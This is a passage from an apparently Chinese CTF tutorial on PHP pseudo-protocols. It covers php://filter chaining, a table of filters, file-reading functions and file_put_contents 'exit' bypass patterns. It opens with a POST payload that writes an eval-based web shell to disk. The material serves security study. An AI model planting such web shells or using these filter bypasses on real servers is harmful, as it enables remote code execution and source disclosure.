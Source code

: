 ```php
POST DATA
<?php fputs(fopen('H3rmesk1t.php','w'),'<?php @eval($_GET[cmd]); ?>'); ?>
```
## php://filter各种过滤器

php://filter是一种元封装器，设计用来数据流打开时筛选过滤应用，详见[官方文档](https://www.php.net/manual/zh/wrappers.php.php)

对于php://来说，是支持多种过滤器嵌套的，格式如下：

```p
php://filter/[read|write]=[过滤器1]|[过滤器2]/resource=文件名称（包含后缀名）
# 如果|被过滤掉了，可以使用多过滤器:

php://filter/string.rot13/resource=php://filter/convert.base64-encode/resource=文件名称（包含后缀名）
# 嵌套过程的执行流程为从左到右

其实是可以简写成这样的php://filter/[过滤器] ，php会自己进行识别
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210527212439780.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
## 过滤器列表
| 过滤器名称|说明 | 类别	| 版本 |
|---|---|---|---|
string.rot13	|rot13转换|	字符串过滤器|	PHP>4.3.0
string.toupper、string.tolower|	大小写互转	|字符串过滤器	|PHP>5.0.0
string.strip_tags|	去除`<?(.*?)?>`的内容|	string.strip_tags|	PHP<7.3.0
convert.base64-encode、convert.base64-decode	|base64编码转换|	转换过滤器|	PHP>5.0.0
convert.quoted-printable-encode、convert.quoted-printable-decode|	URL编码转换	|转换过滤器	|PHP>5.0.0
convert.iconv.编码1.编码2|	任意编码转换|	转换过滤器	|PHP>5.0.0
zlib.deflate、zlib.inflate|	zlib压缩	|压缩过滤器	|PHP>5.1.0
bzip2.compress、bzip2.decompress|	zlib压缩|	压缩过滤器	|PHP>5.1.0

从上面的过滤器列表中便会发现，php伪协议主要支持以下几类：
>1. 字符串过滤器
>2. string.strip_tags
>3. 转换过滤器
>4. 压缩过滤器
>5. 加密过滤器

## PHP伪协议常用函数

**注意show_source有回显，而file_get_contents是没有回显的**
- file_get_contents
- file_put_contents
- readfile
- fopen
- file
- show_source
- highlight_file
## file_put_content与死亡/杂糅代码
CTF经常类似考察这样的代码：
- `file_put_contents($filename,"<?php exit();".$content);`
- `file_put_contents($content,"<?php exit();".$content);`
- `file_put_contents($filename,$content . "\nxxxxxx");`
